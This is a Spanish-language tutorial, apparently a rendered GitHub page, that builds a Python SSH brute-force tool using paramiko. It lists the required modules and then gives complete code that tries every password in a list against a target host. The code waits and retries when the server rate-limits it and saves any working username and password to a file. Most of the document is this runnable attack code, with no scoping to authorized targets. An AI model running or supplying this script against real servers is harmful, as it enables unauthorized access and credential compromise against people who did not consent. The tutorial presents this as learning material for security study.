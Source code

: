 ## Introducción
Un ataque de fuerza bruta es aquel que se basa en repetidos intentos de login utilizando múltiples combinanciones para comprometer un sistema que requeria autenticación. Hay muchísimas y muy buenas herramientas open source para realizar fuerza bruta al servicio SSH en Linux, como pueden ser Hydra, Metasploit, Patator o Medusa. 

Aún así, como nos encanta aprender, vamos a crear nuestro propio script para realizar un ataque de fuerza bruta a un servidor SSH en Python.

En primer lugar, el módulo más importante que vamos a utilizar es [paramiko](https://docs.paramiko.org/en/stable/), que nos proporciona una interfaz sencilla de cliente SSH.

Para instalarlo, bien de forma global en nuestra máquina, junto :

```console
$ pip3 install paramiko colorama
```

Bien únicamente en nuestro entorno virtual:

```console
(entorno-virtual)$ pipenv install paramiko colorama
```

En este caso instalamos también el módulo [colorama](https://pypi.org/project/colorama/) que únicamente nos permitirá imprimir en colores los textos por pantalla.

## Importando módulos necesarios

Para nuestros propósitos vamos a necesitar los siguientes módulos:

```py
import paramiko
import socket
import time
from colorama import init, Fore
```
+ El módulo **paramiko**, entre otras otras cosas, nos permite realizar conexiones ssh a un servidor, mostrando en tiempo real el resultado de los comandos que se ejecuten en el mismo. 
+ El módulo **socket** nos permite crear conexiones de red de bajo nivel
+ **time**, como su nombre indica, proporciona varias funciones relacionadas con el tiempo 

Definimos algunos de los colores que vamos a utilizar:

```python
init() #(1)

GREEN = Fore.GREEN
RED   = Fore.RED
RESET = Fore.RESET
BLUE  = Fore.BLUE
```

1. Iniciamos `colorama`

Ahora construiremos una función que, dado nombre de host, un usuario y una contraseña, nos diga si la combinación es correcta:

```python
def is_ssh_open(hostname, username, password):
    # initialize SSH client
    client = paramiko.SSHClient()
    # add to know hosts
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(hostname=hostname, username=username, password=password, timeout=3)
    except socket.timeout:
        # this is when host is unreachable
        print(f"{RED}[!] Host: {hostname} is unreachable, timed out.{RESET}")
        return False
    except paramiko.AuthenticationException:
        print(f"[!] Invalid credentials for {username}:{password}")
        return False
    except paramiko.SSHException:
        print(f"{BLUE}[*] Quota exceeded, retrying with delay...{RESET}")
        # sleep for a minute
        time.sleep(60)
        return is_ssh_open(hostname, username, password)
    else:
        # connection was established successfully
        print(f"{GREEN}[+] Found combo:\n\tHOSTNAME: {hostname}\n\tUSERNAME: {username}\n\tPASSWORD: {password}{RESET}")
        return True
```

Mucha información en el bloque de arriba, que pasamos a desgranar. En primer lugar inicializamos nuestro cliente SSH usando `paramiko.SSHClient()` que no es más que una representación a alto nivel de una sesión con un servidor SSH.

En segundo lugar, estalecemos la política a usar cuando conectamos con servidores que no tengan una clave de host conocida. Usamos `paramiko.AutoAddPolicy()`, que es una política para añadir automáticamente el nombre de host y la nueva clave de host a nuestras claves locales. En román paladín, es una forma de emular esta típica acción:

![](img/unknown-SSH.webp)

Finalmente, intentamos conectarnos al servidor SSH y autenticarnos en él usando el métodos `client.connect()` con un timeout de 3 segundos. Este método puede lanzar varias excepciones:

1. `socket.timeout` cuando el host es inalcanzable durante 3 segundos
2. `paramiko.AuthenticationException` cuando la combinación usuario/contraseña no es correcta
3. `paramiko.SSHException` cuando se han producido muchos intentos de login en un corto periodo de tiempo. Dicho de otro modo, el servidor detecta que es un intento de fuerza bruta, nos damos por enterados y esperaremos un minuto para volver a llamar a la función de nuevo con los mismos parámetros.

Si no se lanza ninguna de las excpeciones anteriores, entonces significa que se ha estalecido la conexión con éxito y las credenciales son correctas, por lo que devolveremos `True` en este caso.

Puesto que estamos hablando de un script en línea de comandos, debemos *parsear* los argumentos que se le pasan al mismo:

```python
if __name__ == "__main__":
    import argparse
    parser = argparse.ArgumentParser(description="SSH Bruteforce Python script.")
    parser.add_argument("host", help="Hostname or IP Address of SSH Server to bruteforce.")
    parser.add_argument("-P", "--passlist", help="File that contain password list in each line.")
    parser.add_argument("-u", "--user", help="Host username.")

    # parse passed arguments
    args = parser.parse_args()
    host = args.host
    passlist = args.passlist
    user = args.user
    # read the file
    passlist = open(passlist).read().splitlines()
    # brute-force
    for password in passlist:
        if is_ssh_open(host, user, password):
            # if combo is valid, save it to a file
            open("credentials.txt", "w").write(f"{user}@{host}:{password}")
            break
```
Básicamente *parseamos* los argumentos para obtener el nombre de host, el nombre de usuario y el fichero con el listado de contraseñas sobre las que iteraremos. 

## Referencias
[How to Change Text Color in Python](https://www.thepythoncode.com/article/change-text-color-in-python)

[socket — Comunicación en red](https://rico-schmidt.name/pymotw-3/socket/index.html)

[HOW TO - Programación con sockets](https://docs.python.org/es/3/howto/sockets.html)

